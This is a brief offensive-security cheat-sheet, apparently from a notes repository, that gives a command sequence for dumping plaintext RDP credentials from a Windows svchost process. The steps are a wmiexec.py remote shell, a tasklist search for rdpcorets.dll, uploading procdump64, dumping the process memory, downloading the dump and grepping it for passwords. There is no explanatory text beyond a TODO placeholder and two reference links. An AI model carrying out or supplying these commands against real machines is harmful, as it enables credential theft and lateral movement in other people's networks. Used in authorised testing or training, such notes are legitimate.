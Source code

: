 # Unix Shell

Search Tag(s): #lateral-movement #rdp #windows

TODO: Fill in the info

```
$ wmiexec.py <username>:<password>@<IP>

C:\> tasklist.exe /M:rdpcorets.dll

C:\> lput /path/to/local/procdump64.exe

C:\> procdump64.exe -ma <svchost.exe_pid> rdpcreds.dmp

C:\> lget rdpcreds.dmp

C:\> exit
```

```
$ strings -el rdpcreds.dmp | grep <username> -C1
```

---
## References

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)

- [n00py: Dumping Plaintext RDP credentials from svchost.exe](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)
